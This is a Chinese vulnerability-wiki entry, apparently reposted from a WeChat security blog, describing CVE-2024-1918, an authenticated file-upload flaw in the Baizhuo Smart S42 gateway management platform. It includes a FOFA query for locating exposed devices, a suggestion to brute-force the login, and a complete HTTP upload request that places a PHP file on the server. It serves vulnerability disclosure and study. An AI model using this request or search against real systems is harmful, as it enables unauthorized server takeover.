




# CVE-2024-1918

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：百卓网络Smart S42网关管理平台
- 文献类型：登录后上传复现
- 版本、权限及部署边界：文称20240219之前版本；必须先登录后台，/useratte/userattestation.php hidwel分支和web_img上传
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 认证后前提明确在复现段，需提升概要；密码自行爆破不是漏洞必要步骤，应使用授权实验账号
2. 厂商百绰/百招/百卓拼写混杂，产品规范为可核验正式名称
3. multipart终止边界不完整；/boot/web/upload/weblogo/1.php疑似文件系统路径，需区分浏览器URL映射
4. 在虚拟机浏览器可打开的经验不能解释TLS/浏览器限制，环境细节缺失
5. 与S40的web.php/import/file_upload入口不同，不因同指纹合并；缺原始修复/编号来源

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 fgz  AI与网安   2024-02-29 07:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
北京百绰智能S42管理平台userattestation.php无限制上传  
漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
北京百招智能S42管理平台在20240219之前的版本  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
北京百卓网络技术有限公司（以下简称百卓网络）是一家致力于构建下一代安全互联网的高新技术企业。  
  
百卓网络Smart S42网关智能管理平台  
/useratte/userattestation.php接口处  
存在文件上传漏洞。  
攻击者可利用漏洞获取服务器权限，操作服务器文件。  
  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
title="Smart管理平台"
```  
  
  
  
  
注意：直接用浏览器访问很可能打不开，可以在虚拟机中用浏览器访问。  
  
  
05  
  
—  
  
漏洞分析  
  
  
代码中进入hidwel分支，且代码125、126行的上传文件没有进行任何后缀限制，造成任意文件上传。  
  
  
  
  
  
06  
  
—  
  
漏洞复现  
  
  
首先登录系统  
  
  
  
密码自行爆破  
  
  
文件上传数据包如下  
```
POST /useratte/userattestation.php HTTP/1.1
Host: 192.168.40.130:8443
Cookie: PHPSESSID=2174712c6aeda51c4fb6e6c5e6aaac50
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 592
Origin: https://192.168.40.130:8443
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="web_img"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hidwel"

set
-----------------------------42328904123665875270630079328
```  
  
  
  
  
  
访问回显文件  
/boot/web/upload/weblogo/1.php  
  
  
  
漏洞复现完成  
  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
08  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
